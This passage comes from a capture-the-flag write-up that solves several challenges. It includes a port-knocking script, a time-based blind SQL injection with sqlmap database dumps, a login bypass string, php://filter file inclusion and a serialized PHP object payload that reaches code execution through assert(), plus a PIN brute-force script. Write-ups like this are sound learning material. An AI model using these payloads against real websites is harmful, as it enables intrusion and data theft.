for i in range(10):
        time.sleep(delay)
        conn = remote(args.ip, new_port)
        answer = conn.recvline()
        conn.close()
        print(answer)
        split_answer = answer.split(" ")
        new_port = int(split_answer[1])
        delay = int(split_answer[3])
        print(str(new_port) + " " + str(delay))
```

The run of the script is as follows:
```bash
$ ./exploitKnocker.py 192.168.43.61 26308                                                                 ⏎
[+] Opening connection to 192.168.43.61 on port 26308: Done
[*] Closed connection to 192.168.43.61 port 26308
port 31168 in 10 seconds

31168 10
[+] Opening connection to 192.168.43.61 on port 31168: Done
[*] Closed connection to 192.168.43.61 port 31168
port 48392 in 8 seconds

48392 8
[+] Opening connection to 192.168.43.61 on port 48392: Done
[*] Closed connection to 192.168.43.61 port 48392
port 44492 in 2 seconds

44492 2
[+] Opening connection to 192.168.43.61 on port 44492: Done
[*] Closed connection to 192.168.43.61 port 44492
port 34422 in 1 seconds

34422 1
[+] Opening connection to 192.168.43.61 on port 34422: Done
[*] Closed connection to 192.168.43.61 port 34422
port 30539 in 7 seconds

30539 7
[+] Opening connection to 192.168.43.61 on port 30539: Done
[*] Closed connection to 192.168.43.61 port 30539
port 25904 in 10 seconds

25904 10
[+] Opening connection to 192.168.43.61 on port 25904: Done
[*] Closed connection to 192.168.43.61 port 25904
port 53736 in 7 seconds

53736 7
[+] Opening connection to 192.168.43.61 on port 53736: Done
[*] Closed connection to 192.168.43.61 port 53736
the flag is HV16-aBB9-Gis5-RMu2-parP-ckoj

Traceback (most recent call last):
  File "./exploitKnocker.py", line 21, in <module>
    new_port = int(split_answer[1])
ValueError: invalid literal for int() with base 10: 'flag'
```

And in the end, although we have errors in the script we can see the flag:

> HV16-aBB9-Gis5-RMu2-parP-ckoj


Day 21: Debug me
----------------
Not done, as explained on day 17, I have no time to learn debugging, assembly or reverse engineering.


Day 22: Pengus Site
-------------------
Since the website is a .onion we install Tor browser from [1] and install it. Then to be able to test the web site with some comfort we proxy Burp through Tor as explained in [2]. Then we can start serious business :)

There is only one visible page with one form, a sample request to that form would be:
```
POST / HTTP/1.1
Content-Length: 5
Accept-Encoding: gzip,deflate
Connection: close
Accept: */*
User-Agent: sqlmap/1.0.11#stable (http://sqlmap.org)
Host: 7y4b2aymlqwmkyuh.onion
Cookie: PHPSESSID=4e0chtslg9i10l3f1hdd4ee6n3
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded; charset=utf-8

k=foo
```

The response, however, looks to be always the same whichever the input. We fire an active scan through Burp and in the result we see "TRACE method enabled", "Cross-Site Request Forgery" that are both interesting but on top is "SQL Injection" which is way more tempting. When looking closer, we see that the following request has an execution time of > 20 seconds:
```
POST / HTTP/1.1
Host: 7y4b2aymlqwmkyuh.onion
Cookie: PHPSESSID=4e0chtslg9i10l3f1hdd4ee6n3
Connection: close
Content-Length: 48

k=foobar'%2b(select*from(select(sleep(20)))a)%2b'
```

So the form is vulnerable to time-based blind SQL injection. There is a tool that fits perfectly to exploit this kind of vulnerability, please welcome sqlmap! Here is the run of sqlmap to test and find the vulnerability:
```bash
$ sqlmap --proxy=http://127.0.0.1:8080 -u http://7y4b2aymlqwmkyuh.onion --cookie="PHPSESSID=4e0chtslg9i10l3f1hdd4ee6n3" --data="k=foo" --technique T --level 2 --risk 2
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.0.11#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 07:26:12

[07:26:12] [INFO] testing connection to the target URL
[07:26:13] [WARNING] heuristic (basic) test shows that POST parameter 'k' might not be injectable
[07:26:58] [INFO] testing for SQL injection on POST parameter 'k'
[07:26:58] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[07:26:58] [WARNING] time-based comparison requires larger statistical model, please wait............................ (done)
[07:27:25] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[07:27:40] [INFO] POST parameter 'k' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (2) and risk (2) values? [Y/n] 
[07:28:05] [INFO] checking if the injection point on POST parameter 'k' is a false positive
POST parameter 'k' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests:
---
Parameter: k (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: k=foo' AND (SELECT * FROM (SELECT(SLEEP(5)))VEyD) AND 'Tsac'='Tsac
---
[07:28:54] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.23, PHP 5.6.28
back-end DBMS: MySQL >= 5.0.12
[07:28:54] [INFO] fetched data logged to text files under '/home/jsmith/.sqlmap/output/7y4b2aymlqwmkyuh.onion'

[*] shutting down at 07:28:54
```

As for the parameters used, the `proxy` setting allows to connect to Tor network through Burp. The `--technique T` forces the use of time-based blind injection technique. To go further we instruct sqlmap to dump the DB list as follows (and this takes forever because it is time-based through Burp through SOCKS proxy through Tor, who said inception?):
```bash
$ sqlmap --proxy=http://127.0.0.1:8080 -u http://7y4b2aymlqwmkyuh.onion --cookie="PHPSESSID=4e0chtslg9i10l3f1hdd4ee6n3" --data="k=foo" --dbs
[CUT BY TROLLI101]
available databases [5]:
[*] information_schema
[*] mysql
[*] pengus_site
[*] performance_schema
[*] test
[CUT BY TROLLI101]
```

Next step is to list the tables in DB pengus_site:
```bash
$ sqlmap --proxy=http://127.0.0.1:8080 -u http://7y4b2aymlqwmkyuh.onion --cookie="PHPSESSID=4e0chtslg9i10l3f1hdd4ee6n3" --data="k=foo" -D pengus_site --tables
[CUT BY TROLLI101]
Database: pengus_site
[1 table]
+-------------+
| secret_keys |
+-------------+
[CUT BY TROLLI101]
```

And then the columns of the table secret_keys:
```bash
$ sqlmap --proxy=http://127.0.0.1:8080 -u http://7y4b2aymlqwmkyuh.onion --cookie="PHPSESSID=4e0chtslg9i10l3f1hdd4ee6n3" --data="k=foo" -D pengus_site -T secret_keys --columns
[CUT BY TROLLI101]
tabase: pengus_site
Table: secret_keys
[1 column]
+------------+--------------+
| Column     | Type         |
+------------+--------------+
| secret_key | varchar(200) |
+------------+--------------+
[CUT BY TROLLI101]
```

Finally we dump the column and get the secret key:
```bash
$ sqlmap --proxy=http://127.0.0.1:8080 -u http://7y4b2aymlqwmkyuh.onion --cookie="PHPSESSID=4e0chtslg9i10l3f1hdd4ee6n3" --data="k=foo" -D pengus_site -T secret_keys -C secret_key --dump
[CUT BY TROLLI101]
Database: pengus_site
Table: secret_keys
[1 entry]
+--------------------------------------------------------------------------------------------------+
| secret_key                                                                                       |
+--------------------------------------------------------------------------------------------------+
| K7WjFm6eaB3TDD5ZjtfxFVAdCQJaRHyphmpDkfvm7JaqP8rWHF6cXPDzRYqZCKw3xyeQrFmVL6n93J2WaL
nQU2efEfZPx2fv |
+--------------------------------------------------------------------------------------------------+
[CUT BY TROLLI101]
```

Which was useles, I was searching too far away. We could use a much simpler injection to login, entering this string in the login field to get logged in: `1' or '1' = '1`

But this was only the first part, fasten your seat belts! With the key we can now log into the website and are greeted by pengu and he is happy to have us as his customer. We now have access to 3 more pages:

- <http://7y4b2aymlqwmkyuh.onion/?p=106a6c241b8797f52e1e77317b96a201> main page, home
- <http://7y4b2aymlqwmkyuh.onion/?p=86024cad1e83101d97359d7351051156> products page
- <http://7y4b2aymlqwmkyuh.onion/?l> logout

We notice that the parameter `p` in the URL is actually a MD5 hash. When cracking both with online service we get two strings, "home" and "products" which makes sense since this is the name of the pages. We can then try some more things, I did a test with lots of file/directories hashed to md5 but only md5(index) gave something. When called, the following page will return ~12MB of data, looking like 255 times the home page.

Then I launched a new Burp scanner on the home page that returns a result about file path manipulation. And indeed, the response with both those URLs is identical:

- <http://7y4b2aymlqwmkyuh.onion/?p=86024cad1e83101d97359d7351051156>
- <http://7y4b2aymlqwmkyuh.onion/?p=./86024cad1e83101d97359d7351051156>
- <http://7y4b2aymlqwmkyuh.onion/?p=foo/../86024cad1e83101d97359d7351051156>
- <http://7y4b2aymlqwmkyuh.onion/?p=../www/86024cad1e83101d97359d7351051156>

So we're probably looking for some kind of include exploit, this is why the md5(index) page returned all this data. PHP code must be executed after the include. The page at [3] helped me to find the solution. We can use the `php://filter` to convert the md5(index) file to base64 and include it as base64 instead of being executed. This will allow us to have a look at the code before it is interpreted. This is done by calling the following URL: <http://7y4b2aymlqwmkyuh.onion/?p=php://filter/convert.base64-encode/resource=6a992d5529f459a44fee58c733255e86>

In the response, a base64 blob is included and we can decode it to get the index.php file. Here is an interesting excerpt:
```php
[CUT BY TROLLI101]
if(isset($_SESSION['k'])) {

  # <a href="?p=">Admin</a>&nbsp;

  echo '
    <a href="?p=106a6c241b8797f52e1e77317b96a201">Home</a>&nbsp;
    <a href="?p=86024cad1e83101d97359d7351051156">Products</a>&nbsp;
    <a href="?l">Logout</a>
    <br /><br />';

  include((isset($_GET['p']) ? $_GET['p'] : '106a6c241b8797f52e1e77317b96a201').'.php');
}
[CUT BY TROLLI101]
```

So actually there should be some admin zone. It must contain PHP code and was not displayed when trying to reach the p=md5(admin). Using the same technique as for the index, we can exfiltrate the admin page using the URL: <http://7y4b2aymlqwmkyuh.onion/?p=php://filter/convert.base64-encode/resource=21232f297a57a5a743894a0e4a801fc3>

When decoding the base64 blob we get the admin.php page:
```php
<?php
  error_reporting(0);

  class AdminPackage {

     public $password;
     public $leetness;

     function check_leetness() {
       if(md5($this->password) == '0e1337') echo '<pre> [+] Is it 1337? -> '.(assert('1337 == '.$this->leetness) ? 'Yes!' : 'Nope!').'</pre>';
     }

     function __construct($password, $leetness) {
       $this->password = $password; $this->leetness = $leetness;
     }
  }

  if(isset($_GET['a'])) {
    $admin_package = unserialize(base64_decode($_GET['a']));
    $admin_package->check_leetness();
  }
?>
```

OK, now third part, we need to exploit the admin page. So if we use some URL like `/?p=21232f297a57a5a743894a0e4a801fc3&a=something` our parameter 'a' will get base64 decoded and unserialized. So we need to craft a payload that is an `AdminPackage` object serialized and base64 encoded. I modified the admin.php page to craft the payload as follows:
```php
?php
  class AdminPackage {

     public $password;
     public $leetness;

     function check_leetness() {
       if(md5($this->password) == '0e1337') echo '<pre> [+] Is it 1337? -> '.(assert('1337 == '.$this->leetness) ? 'Yes!' : 'Nope!').'</pre>';
     }

     function __construct($password, $leetness) {
       $this->password = $password; $this->leetness = $leetness;
     }
  }

  $pack = new AdminPackage(0, 1);
  $exploit = serialize($pack);
  echo $exploit . "\n";
  echo base64_encode($exploit) . "\n";
?>
```

We can then replace the parameters in the code and execute this using PHP to get the payload and send i to the site. When the parameter 'a' object is unserialized, PHP will automatically call the `__construct` function and assign the parameters that we need, `$password` and `$leetness`. Then the `check_leetness()` function will be executed. To go on, we need to pass the condition `if(md5($this->password) == '0e1337')` This is a known problem of PHP comparison and can be solved by finding a value that when hashed with md5 starts with 0e followed only by digits, see [4] for examples. I used the integer 240610708.

Now we can construct a payload using `AdminPackage(240610708, '1337')` to satisfy the `assert()` and submit it to the site with this URL: http://7y4b2aymlqwmkyuh.onion/?p=21232f297a57a5a743894a0e4a801fc3&a=TzoxMjoiQWRtaW5QYWNrY
WdlIjoyOntzOjg6InBhc3N3b3JkIjtpOjI0MDYxMDcwODtzOjg6ImxlZXRuZXNzIjtzOjQ6IjEzMzciO30=

In the bottom of the HTTP response we get this to prove that it worked:
```
<pre> [+] Is it 1337? -> Yes!</pre>
```

We must now find a way to exploit the `assert()`. Again, some literature helps, see [5]. So `alert()` is like `eval()`, that means we can use some PHP function. I tested with `AdminPackage(240610708, 'phpinfo()')` and it worked. So we have PHP code execution, let's do some file listing until we can list the home directory of pengu using `AdminPackage(240610708, 'var_dump(scandir("/home/pengu/"))')` we get:
```html
[CUT by TROLLI101]
<small>/www/21232f297a57a5a743894a0e4a801fc3.php(10) : assert code:1:</small>
<b>array</b> <i>(size=3)</i>
  0 <font color='#888a85'>=&gt;</font> <small>string</small> <font color='#cc0000'>'.'</font> <i>(length=1)</i>
  1 <font color='#888a85'>=&gt;</font> <small>string</small> <font color='#cc0000'>'..'</font> <i>(length=2)</i>
  2 <font color='#888a85'>=&gt;</font> <small>string</small> <font color='#cc0000'>'7b66a8f1be1f9cff0a19aaf28d0e0396'</font> <i>(length=32)</i>
</pre><pre> [+] Is it 1337? -> Nope!</pre>
[CUT BY TROLLI101]
```

And the final payload looks like `AdminPackage(240610708, 'print(file_get_contents("/home/pengu/7b66a8f1be1f9cff0a19aaf28d0e0396"))')` and it will be serialized to:
```
O:12:"AdminPackage":2:{s:8:"password";i:240610708;s:8:"leetness";s:72:
"print(file_get_contents("/home/pengu/7b66a8f1be1f9cff0a19aaf28d0e0396"))";}
```

And then encoded to:
```
TzoxMjoiQWRtaW5QYWNrYWdlIjoyOntzOjg6InBhc3N3b3JkIjtpOjI0MDYxMDcwODtzOjg6
ImxlZXRuZXNzIjtzOjcyOiJwcmludChmaWxlX2dldF9jb250ZW50cygiL2hvbWUvcGVuZ3Uv
N2I2NmE4ZjFiZTFmOWNmZjBhMTlhYWYyOGQwZTAzOTYiKSkiO30=
```

We can then submit this with the URL: http://7y4b2aymlqwmkyuh.onion/?p=21232f297a57a5a743894a0e4a801fc3&a=TzoxMjoiQWRtaW5QYWNrYWdlIjoyOntzOjg6In
Bhc3N3b3JkIjtpOjI0MDYxMDcwODtzOjg6ImxlZXRuZXNzIjtzOjcyOiJwcmludChmaWxlX2dldF9jb25
0ZW50cygiL2hvbWUvcGVuZ3UvN2I2NmE4ZjFiZTFmOWNmZjBhMTlhYWYyOGQwZTAzOTYiKSkiO30=

And in the bottom of the page we get
```
[CUT by TROLLI101]
     - 1337 -
      .___.
     /     \
    | O _ O |
    /  \_/  \  NOOT NOOT
  .' /     \ `.
 / _| PENGU |_ \
(_/ |       | \_)
    \       /
   __\_>-<_/__
  ~;/     \;~

    - HAX -

Loved your good feedback on the HL chat and on twitter.

If you liked this challenge, tweet me: https://twitter.com/muffiniks

Here's again a gift for you: HV16-p3ng-ug0t-pwn3-dr0x-x0rz

Greetz, MuffinX <3
[CUT by TROLLI101]
```

And the flag is:

> HV16-p3ng-ug0t-pwn3-dr0x-x0rz

References:

- \[1\] Tor browser project, <https://www.torproject.org/>
- \[2\] Proxying Burp Suite through Tor, <http://jerrygamblin.com/2015/12/18/proxying-burpsuite-through-tor/>
- \[3\] Using php://filter for local file inclusion, <https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/>
- \[4\] Some Stackoverflow page, <http://stackoverflow.com/questions/22140204/why-md5240610708-is-equal-to-md5qnkcdzo>
- \[5\] Indepth Code Execution in PHP: Part Two, <http://www.rafayhackingarticles.net/2014/09/indepth-code-execution-in-php-part-two.html>


Day 23: From another time
-------------------------
For this challenge we receive a C64 program, SANTACLS.PRG. When running it using VICE we have a nice 8-bit music with a message:
```
HV16-HOHO-HOHO-HOHO-HOHO-HOHO
 ... NOT THE RIGHT FLAG ...


            MEAN OLD SANTA CLAUS
```

One could disassemble the program and try to reverse it but I found a shorter path. While running the program I saved a snapshot from VICE with "Snapshot -> Save snapshot image..." as `memory.vsf` I could then use the strings program and the flag is displayed right there:
```bash
$ strings memory.vsf
[CUT BY TROLLI101]
 2064
x >	 f	 
HV16-siZy-UzxY-u7qV-nr3D-FSk4      
            ... 
[CUT BY TROLLI101]
```

The flag is:

> HV16-siZy-UzxY-u7qV-nr3D-FSk4


Day 24: M3M0RY
--------------
Not done.


Special Flag 1: Twitter
-----------------------
On day 10 a message was posted about following @HackyEaster. Actually when following him on twitter you see that a ball has been posted there. When reading the QR code we find a flag:

> HV16-hSCk-DTwW-wnKr-yTVj-bOay


Special Flag 2: Perl GIF
------------------------
The hint said to look at the second two elements of the flag for day 11. This flag ended with TMTO-WTDI. So when googling that you find that it's a Perl motto: There is more than one way to do it.

After much fiddling with the file itself I eventually executed the command:
```bash
$ perl MandM.gif
PIN?
> 1234
��Z|"���C���e�f�X��spv
```

It asks for a PIN and return some data afterwards. We guess that this must be the flag and bruteforce the PIN with this (slow) script. It will test PINs in increasing order by spawning new proceses, check if the answer includes 'HV16' and stop if yes:
```python
#!/usr/bin/python

import pexpect
import sys

for i in range(100000, 1000000):
	print(str(i))
	child = pexpect.spawn('perl MandM.gif')
	child.delaybeforesend = None
	child.expect('> ')
	child.sendline(str(i))
	try:
		child.expect('foo')
	except:
		if "HV16" in child.before:
			print(child.before)
			print(str(child))
			exit()
```

And when running it it finds that the PIN is 160417 and the flag is:

> HV16-FWtf-Sh9O-cApF-Q9HQ-qMrp
